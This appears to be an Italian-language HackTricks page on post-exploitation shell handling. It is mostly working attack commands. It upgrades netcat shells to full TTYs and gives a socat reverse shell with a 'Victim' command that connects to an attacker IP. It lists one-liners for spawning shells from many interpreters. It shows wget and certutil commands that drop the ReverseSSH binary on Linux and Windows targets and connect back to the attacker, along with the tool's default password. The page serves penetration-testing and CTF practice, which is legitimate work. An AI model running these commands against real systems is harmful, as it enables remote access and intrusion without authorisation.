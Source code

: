 # Full TTYs

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Full TTY

Nota che la shell impostata nella variabile `SHELL` **deve** essere **elencata all'interno** _**/etc/shells**_ o `Il valore per la variabile SHELL non è stato trovato nel file /etc/shells Questo incidente è stato segnalato`. Inoltre, nota che i prossimi snippet funzionano solo in bash. Se sei in zsh, cambia in bash prima di ottenere la shell eseguendo `bash`.

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
Puoi ottenere il **numero** di **righe** e **colonne** eseguendo **`stty -a`**
{% endhint %}

#### script

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **Spawn shells**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

Un modo conveniente per **l'accesso interattivo alla shell**, così come per **trasferimenti di file** e **port forwarding**, è scaricare il server ssh staticamente collegato [ReverseSSH](https://github.com/Fahrj/reverse-ssh) sul bersaglio.

Di seguito è riportato un esempio per `x86` con binari compressi upx. Per altri binari, controlla la [pagina delle release](https://github.com/Fahrj/reverse-ssh/releases/latest/).

1. Preparati localmente per catturare la richiesta di port forwarding ssh:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) Obiettivo Linux:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Obiettivo Windows 10 (per versioni precedenti, controlla [project readme](https://github.com/Fahrj/reverse-ssh#features)):

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
{% endcode %}

* Se la richiesta di port forwarding ReverseSSH è stata completata con successo, ora dovresti essere in grado di accedere con la password predefinita `letmeinbrudipls` nel contesto dell'utente che esegue `reverse-ssh(.exe)`:
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## No TTY

Se per qualche motivo non riesci a ottenere un TTY completo, **puoi comunque interagire con i programmi** che si aspettano un input dell'utente. Nell'esempio seguente, la password viene passata a `sudo` per leggere un file:
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
